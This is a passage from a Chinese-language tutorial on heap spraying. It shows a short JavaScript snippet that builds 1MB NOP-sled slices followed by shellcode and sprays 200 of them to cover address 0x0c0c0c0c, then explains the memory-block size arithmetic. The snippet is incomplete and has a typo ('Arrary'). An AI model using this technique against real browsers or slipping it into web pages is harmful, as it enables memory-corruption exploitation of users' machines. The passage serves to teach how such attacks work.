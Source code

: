 ```javascript
var nop=unescape("%u9090%u9090");
while (nop.length<= 0x100000/2)
{
	nop+=nop;
}//生成一个 1MB 大小充满 0x90 的数据块
nop = nop.substring(0, 0x100000/2 - 32/2 - 4/2 - shellcode.length - 2/2 );
var slide = new Arrary();
for (var i=0; i<200; i++)
{
	slide[i] = nop + shellcode
} 
```

对于这段 JavaScript 需要解释如下:
- 每个内存片大小为 1MB。
- 首先产生一个大小为 1MB 且全部被 0x90 填满的内存块。
- 由于 Java 会为申请到的内存填上一些额外的信息，为了保证内存片恰好是 1MB，我们将这些额外信息所占的空间减去。具体说来，这些信息如下表所示。

|内容|size|说明|
|-|-|-|
|malloc header|32 bytes|堆块信息|
|string length|4 bytes|表示字符串长度|
|terminator |2 bytes|字符串结束符，两个字节的NULL| 

- 在考虑了上述因素及shellcode的长度后，$nop = nop.substring(0,0x100000/2-32/2-4/2-shellcode.length-2/2)$ 将一个内存片恰好凑成1MB大小。

- 如下图所示，最终我们将使用200个这种形式的内存片来覆盖堆内存，只要其中任意一片的nop区能够覆盖 0x0c0c0c0c，攻击就可以成功。

<img src="images/05/内存片部署示意图.png" width="480">
